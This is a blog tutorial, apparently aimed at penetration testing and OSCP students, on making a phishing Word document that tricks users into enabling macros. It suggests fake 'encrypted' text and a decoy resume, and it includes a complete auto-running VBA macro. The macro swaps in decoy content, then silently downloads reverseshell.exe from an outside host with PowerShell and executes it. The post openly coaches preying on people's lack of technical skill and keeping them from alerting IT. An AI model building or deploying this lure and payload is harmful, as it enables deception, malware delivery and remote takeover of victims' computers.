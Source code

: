 ```yaml
---
title: "Create A Phishing Word Document With Macros To Get A Reverse Shell"
layout: single
read_time: true
comments: true
share: true
author_profile: true
header:
  overlay_color: "#000"
  overlay_filter: "0.5"
  overlay_image: /assets/christopher-burns-Kj2SaNHG-hg-unsplash.jpg
excerpt: "<br><br><br>"
categories:
  - Tutorials
tags:
  - cyber security
  - penetration testing
  - oscp
---
```


## High Level

This post goes hand in hand with How To Make A Reverse Shell With Microsoft Word Macros, since this post will not be covering the macro part required for the actual reverse shell. It will however include the complete macro below, just without explanation of the parts not covered in this post. Instead, this post will go over convincing techniques to trick users into enabling macros. By presenting some kind of "masked" information, we can convince the user to enable macros under the guise of unmasking said information. We are taking advantage of someone's lack of skill with technology, presenting them with scary looking text, and instructing them that the only way to see what they are intending to click on is by enabling macros. By leveraging VBA we can essentially swap out all the information on the screen for a predefined other set of information. To the user, they are "decrypting" the information. To us, we are swapping out text that looks scary for something they are expecting, running our reverse shell, and all because the user thinks they need to enable macros to see the information. You can see where your creativity will come into play in your persuasiveness to get someone to click on the right thing. In this scenario we are going to demonstrate a very non-creative way of phishing simply for education streamlining. We will leave the creativity up to you.

## "Encrypted" Text

The first step is purely phishing based. In a new Word document, start to put together what you think is a convincing appearance that someone needs to "decrypt" in some way to be able to see the information they want. This could include incorporating things like a long string of bas64 text, some sayings about this message being encrypted, blurred or fuzzy text, and pictures or watermarks referring to some kind of encryption class. The more convincing and scarier your phishing tactics are, the more likely someone will enable all content without question.


## The Switch

Once our target enables all content, we need to visually switch the text so that it appears as if the document really has been decrypted. This is not only so that the user does not have any concerns or contact their IT Admin, but also so that the target will leave the document up and running long enough for our shell to connect. Copy your encrypted text temporarily and begin building what text the user expected to see. For a fake job application, you should include contents of a fake resume as to not raise suspicions. Select all your decrypted text and go to Insert --> Quick Parts --> AutoTexts --> Save Selection to AutoText Gallery. While in "Create New Building Block" create and remember a unqiue name and select OK. Remove your decrypted text and replace it with the encypted text. Next, we will edit our existing macro to switch the text from encrypted to decrypted when macros are enabled.

## Editing Macro

```
Sub MyMacro()
    ActiveDocument.Content.Select
    Selection.Delete
    ActiveDocument.AttachedTemplate.AutoTextEntries("DecryptedText").Insert Where:=Selection.Range, RichText:=True
End Sub
```

We will be inserting this code into our already existing micro. Let us go through how it works, and then you can see what the complete macro looks like. ActiveDocument.Content.Select selects all the existing content, like a ctrl-a command, and is then deleted by Selection.Delete. Next, Word searches for our auto text entry, which I have named DecryptedText. Switch out this name for whatever you named your auto text entry.

## Full Macro

```
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
   ActiveDocument.Content.Select
   Selection.Delete
   ActiveDocument.AttachedTemplate.AutoTextEntries("TheDoc").Insert Where:=Selection.Range, RichText:=True
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.1/reverseshell.exe', 'reverseshell.exe')"
    Shell str, vbHide
    Dim exePath As String
    exePath = ActiveDocument.Path + "\reverseshell.exe"
    Wait (2)
    Shell exePath, vbHide

End Sub

Sub Wait(n As Long)
    Dim t As Date
    t = Now
    Do
        DoEvents
    Loop Until Now >= DateAdd("s", n, t)
End Sub
```
## Takeaways
Remember to save the document as .doc versus .docx or else this attack will not work properly. This macro still does not employ best practices by downloading the reverse shell instead of loading and executing in memory.
